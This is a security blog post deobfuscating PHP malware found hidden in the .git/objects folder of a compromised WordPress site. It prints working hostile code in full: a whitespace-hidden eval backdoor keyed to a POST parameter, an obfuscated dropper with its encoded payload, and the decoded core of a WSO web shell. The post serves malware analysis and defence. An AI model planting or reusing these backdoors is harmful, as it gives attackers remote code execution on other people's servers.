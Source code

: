 ```yaml
---
layout: post
title: "Deobfuscating PHP Malware"
description: ""
category: 
tags: []
comments: true
---
```

This week I was shown some PHP malware in the wild. A coworker was cleaning up a compromised Wordpress install. The web hosting provider had flagged a particular file as malware based on a file signature match. The cause of the infection was pretty clear (misconfigured webserver permissions allowing arbitrary file upload and execution!), so cleanup was strightforward. However, as we dug through the file hierarchy on the webserver, we found a number of additional PHP files that had _not_ been detected as malware, but were clearly malicious. I'm going to walk through the deobfuscation of these files.

<!--more-->
These files were found in various subdirectories inside `.git/objects`, which normally contain binary git blobs only. When was the last time you looked at the contents of that directory?

```
.inc.php
.view.php
diff.php
dump.php
inc.php
options.php
proxy.php
session.php
title.php
```

All the files have common names which wouldn't be out of place on any wordpress install. However, in this instance, the names stood out because the usual files in `.git/objects/*/` all have SHA names.

```
master$ ls .git/objects/16

9c10611acf14bef4a5430838a50a30fb967351
d7d7b0e2441d1dddff7dfbac4a944a2a213f28
inc.php
```

Let's look at the contents of one of these files. Here's what `inc.php` looked like when we opened it in an editor:

```php
<?php
```

OK, so just an empty PHP file. Nothing to see here, right? We were caught by this for a few minutes. Now let's try it with word wrap turned on:

```php
<?php                                                                                                                                                                                                                                                               $sF="PCT4BA6ODSE_";$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];if(isset($s22)){eval($s21($s22));}?>

```

Oh, now we've got something! The content was pushed to the right by 255 columns, hidden from casual observers.

Let's see if we can de-obfuscate this code. We'll start by reformatting:

```php
<?php
$sF="PCT4BA6ODSE_";
$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
if(isset($s22)){eval($s21($s22));}
?>
```

And now we can evaluate each line:

```php
<?php

$sF="PCT4BA6ODSE_";

$s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
# => $s21="base64_decode"

$s22=${strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[2])}['n318a65'];
# => $s22=_POST['n318a65']

if(isset($s22)){eval($s21($s22));}
# => if(isset(_POST['n318a65'])){eval(base64_decode(_POST['n318a65']));}

?>
```

OK, so we have an arbitrary code executor. This code will base64-decode and then execute the contents of the `n318a65` parameter if found in POST data. Easy!

Let's look at a more interesting file. Here's `.view.php`

```php
<?php
$vF9UATQ = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');
function vOSF9PJ($vJ2NSLW, $vIW0M1X){$vYNF1RQ = ''; for($i=0; $i < strlen($vJ2NSLW); $i++){$vYNF1RQ .= isset($vIW0M1X[$vJ2NSLW[$i]]) ? $vIW0M1X[$vJ2NSLW[$i]] : $vJ2NSLW[$i];}
return base64_decode($vYNF1RQ);}
$v4CK4VY = 'wcKdNcoCkcKxkGaBpApxrqRvrnFJtnToFqTutOFXFSDG3nKQ3SaxFqfxteFGtGplADsQFOBYL4pDm0aupOTq10plAuTQr9'.
'roN9WIZOKeNcv5LuaBpANcj9WvkIdoLuklAuTQr9roN9WIZ4RxrRBojqKV'.
'pnIDN7wdrSYzwcTvrqKdL7TCFOook61vNAaBpANZj9XQL4NxgSyG1Sy63Js'.
'zMcv8jRBxrZMswORGkqBGZOW5rGkYSvRtSAQlAQiULqvCkORIzANYLONCrZwGL4wxwGJJzSYzMcv8jRBxrZMswOdobKB'.
'vbcReNZTULOXCNcvHr0kYtAQlAQixrZTCNcvHrRBYj9dUNADJzSYzM71vNKBHF9NUFdBWN9BIrZ1Ck6R8NcvHr0DJz'.
'SYzMcTvrqv8r0D6Rd1mZdrKfv1wSIV6gAa6tuVdgey6zSYzAqvqzcNvNKBHF9NUFdBWN'.
'9BIrZ1Cr4iezAQUp7YzpAaDpcrdLq1Ij9B8pKNSS41IkqvJkOWokOovkGDQFZwGFZQUp7YzpAaDpA'.
'aDpAiGrZTdkqVDjZ1CFZwGFZQswcKGkqKXz0a/pcKGkqKXZOdokAD6Rd1mk'.
'4TGjZixLcKxjcRxwGJDwcKGkqKXz0aPp71IkqvJkOWokOovkGDQFZwGFZQU3JsDpAaDCMsDpAaDwKBMSd1fp'.
'nIDRd1mk4TGjZixLcKxjcRxzATCfyBSRAQlAuaDpAaQZI1mSIHwT0aBpKNSS41IkqvJkOWokOovkGDQZI1m'.
'SIHwT0QlA6IzAqrdLq1Ij9B8p7NxLIW5rOv8zAQDbJsDpAaDjcRorcRGzANpRKTMgxy8tAaItnMDSqBIpyr5N9XQwG'.
'QlAuaDpAiQj9fspeMJ1ApU3JUBADUqN9XeNcv5LuiZfIBxrZTeLOBhj9fswcYYpAT'.
'Oz0ilAuaDpAaQZI1mSIHwTRYQjdIDm0aQNeYzpAaDp71vNc15LOHU'.
'r0DQjGJDw7FU3JUBADUUruDor9dJN7QswcKdNcoCkcKxkGQUp7YzpAaDpcvqzcvxkORIzATC'.
'fyBSRKY6kcKxkGNNz0aqwuasL9MdzATCfyBSRKY6kcKxkGNNz0aBm0a'.
'QFZRIjKBJFZ1xz0QzpAaDpAaDpAiZfIBxrZTeLOBhj9fsL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0QYpAToNZTsZ4iok4tU3'.
'JszpAaDpcvqpADojZ1xrZMswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0'.
'vNz0i2CAaswKBnSIBg0fRLL9MdzATCfIR0RQR09GNpRKTMZIomfdM6Z0vNpAyBpAToNZTsZ4iok4tUzMsDpAaDpAaDp7NxLI'.
'W5rOv8zAQlA6IzAqrdLq1Ij9B8pcKeNcv5LvwnzAQDbJsDpAaDj9FspfaQZdimfdTLw4aWwdIUp7YzpA'.
'aDpAaDpAaQF0aBpcKGkqKXzasDpAaDpAaDpAaDpAauN9XoL9fupnI+p7iskKBd'.
'LqKHr0DUgasDpAaDpAaDpAaDpAaukcoJZ4rvk61ULOVupnI+p7isk7rvk61ULOVsz0Jz'.
'pAaDpAaDpAaDpAaDp6NxLdBOrZwxj9B8puaBmuiZfIBCRQR0fIvmSuJzpAaDpAaDpAaD'.
'pAaDp61orqRHLOTvpuaBmuiaj9XUZONvNAD6kOKqrRBHLOTvwGQzpAaDpAaDpAaU3JsDpAaDpAaDpcRejc2DkORG'.
'j9KYjZUvzATozSYzpAaDp7IDr9Wxr0ilAuaDpAaDpAaDrZroLADQZdimfdTLw4aWwdIU3JsDpAaDCM'.
'UBAqvqzAivLZiIb0DQZdimfdTLwOy6Z0QDzMsDpAaDj9FsjZ1xrZMswcTvrqKdL7TCF91Ij9B8z0aqwuiqN9XeNcv5LvBvbcv'.
'xN7tswOKeNcv5LukDguaQrcRqFZRYNKBoF4TULOVUzMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwcTvrqKdL7TCF9'.
'1Ij9B83JsDpAaDr9WxrMsDpAaDpAaDpATCfyBSRKY6F0NNpnIDwd1vFIv8rq263JUUruDD'.
'p9RHk7TXzATCfyBSRKY6F0NNz0aqwuiqN9XeNcv5LvBvbcvxN7tswOKeNcv5LukDguaQZdimfdT'.
'LwOy6Z0QDzMsDpAaDFOKYLKBdkORGZOrdLqtswOKeNcv5LukDguaQZdimfdTLwOy6Z0QlAqRVjZMl';
eval(vOSF9PJ($v4CK4VY, $vF9UATQ));
?>
```

This file employs similar tactics to obfuscate the payload. I changed the variable names and indentation, and its actions become very clear:

```php
<?php

$char_transposition_map = Array('1'=>'N', '0'=>'S', '3'=>'O', '2'=>'8', '5'=>'v', '4'=>'3', '7'=>'H', '6'=>'n', '9'=>'W', '8'=>'u', 'A'=>'C', 'C'=>'f', 'B'=>'9', 'E'=>'q', 'D'=>'g', 'G'=>'y', 'F'=>'Y', 'I'=>'0', 'H'=>'t', 'K'=>'F', 'J'=>'w', 'M'=>'Q', 'L'=>'b', 'O'=>'2', 'N'=>'d', 'Q'=>'k', 'P'=>'6', 'S'=>'T', 'R'=>'V', 'U'=>'p', 'T'=>'R', 'W'=>'x', 'V'=>'4', 'Y'=>'s', 'X'=>'5', 'Z'=>'X', 'a'=>'A', 'c'=>'G', 'b'=>'e', 'e'=>'j', 'd'=>'1', 'g'=>'L', 'f'=>'U', 'i'=>'B', 'h'=>'r', 'k'=>'c', 'j'=>'a', 'm'=>'P', 'l'=>'7', 'o'=>'h', 'n'=>'D', 'q'=>'m', 'p'=>'I', 's'=>'o', 'r'=>'Z', 'u'=>'i', 't'=>'M', 'w'=>'J', 'v'=>'l', 'y'=>'E', 'x'=>'z', 'z'=>'K');

function transpose_and_base64_decode($source_text, $transposition_map) {
  $transposed_string = '';
  for($i=0; $i < strlen($source_text); $i++) {
    $transposed_string .= isset($transposition_map[$source_text[$i]]) ? $transposition_map[$source_text[$i]] : $source_text[$i];
  }
  return base64_decode($transposed_string);
}

$long_text = '<SNIP>';

eval(transpose_and_base64_decode($long_text, $char_transposition_map));

?>
```

OK, we're ready to see the payload! Changing the final `eval` to a `print` and executing the code gets us this gem:

```php
<?php
$auth_pass = "3feed6004abdb3f9a8281d903be32623";

$color = "#df5";
$default_action = 'FilesMan';
$default_use_ajax = true;
$default_charset = 'Windows-1251';

@ini_set('error_log',NULL);
@ini_set('log_errors',0);
@ini_set('max_execution_time',0);
@set_time_limit(0);
@set_magic_quotes_runtime(0);
@define('WSO_VERSION', '2.5.1');

if(get_magic_quotes_gpc()) {
    function WSOstripslashes($array) {
        return is_array($array) ? array_map('WSOstripslashes', $array) : stripslashes($array);
    }
    $_POST = WSOstripslashes($_POST);
    $_COOKIE = WSOstripslashes($_COOKIE);
}

function wsoLogin() {
    header('HTTP/1.0 404 Not Found');
    die("404");
}

function WSOsetcookie($k, $v) {
    $_COOKIE[$k] = $v;
    setcookie($k, $v);
}

if(!empty($auth_pass)) {
    if(isset($_POST['pass']) && (md5($_POST['pass']) == $auth_pass))
        WSOsetcookie(md5($_SERVER['HTTP_HOST']), $auth_pass);

    if (!isset($_COOKIE[md5($_SERVER['HTTP_HOST'])]) || ($_COOKIE[md5($_SERVER['HTTP_HOST'])] != $auth_pass))
        wsoLogin();
}

function actionRC() {
    if(!@$_POST['p1']) {
        $a = array(
            "uname" => php_uname(),
            "php_version" => phpversion(),
            "wso_version" => WSO_VERSION,
            "safemode" => @ini_get('safe_mode')
        );
        echo serialize($a);
    } else {
        eval($_POST['p1']);
    }
}
if( empty($_POST['a']) )
    if(isset($default_action) && function_exists('action' . $default_action))
        $_POST['a'] = $default_action;
    else
        $_POST['a'] = 'SecInfo';
if( !empty($_POST['a']) && function_exists('action' . $_POST['a']) )
    call_user_func('action' . $_POST['a']);
exit;
?>
```

And voila, a nice little web shell based on WSO.

